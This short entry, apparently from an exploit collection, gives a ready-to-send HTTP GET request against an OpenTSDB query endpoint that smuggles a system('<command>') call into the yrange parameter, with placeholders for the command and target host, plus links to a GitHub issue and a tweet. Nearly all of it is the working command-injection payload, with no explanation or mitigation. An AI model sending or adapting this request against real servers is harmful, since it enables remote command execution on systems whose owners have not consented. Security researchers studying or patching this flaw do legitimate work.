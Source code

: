 ### exploit
```
GET /q?start=2000/10/21-00:00:00&end=2020/12/25-00:00:00&m=sum:ziq.kxt.ymi&o=&yrange=[0:system('<command>')]&wxh=1698x316&style=linespoint&json
Host: <rhost>
```

### References
https://github.com/OpenTSDB/opentsdb/issues/2051  
https://twitter.com/sec715/status/1355601224674942976/photo/1  

